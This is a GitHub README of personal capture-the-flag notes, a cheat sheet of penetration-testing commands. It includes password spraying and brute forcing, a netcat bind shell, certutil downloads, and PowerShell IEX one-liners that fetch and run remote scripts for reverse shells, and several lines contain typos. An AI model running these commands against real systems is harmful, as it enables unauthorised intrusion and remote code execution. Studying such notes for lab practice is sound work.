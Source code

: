# ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec <module> -u <users.txt> -p <passwords.txt> <ip or ip range>
- bruteforce
medusa -h <ip> -U <users.txt> -P <passwords.txt> -M <module> <ip> (more options may be required, example used was SSH module)


upgrade shell using python pty library and adds auto complete for steps 2+ :
1 - python -c 'import pty;pty.spawn("/bin/bash")'
2 - CTRL z
3 - stty raw -echo
4 - fg <enter key>
5 - export TERM=xterm

known hosts ssh file will show all hosts the host has SSH'd into

- command to reset a broke terminal session
reset

- mysql syntax for navigation:
show databases; (shows available databases)
use <database name>; (selects database to use)
show tables; (shows tables in database)
describe <table name>; (shows more information on values inside table)
select <table value> from <table>; (shows items inside the table values of the table)
  
- file upload:
curl http://<ip>:<port>/<file> -output <file>    (works with powershell and linux)






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
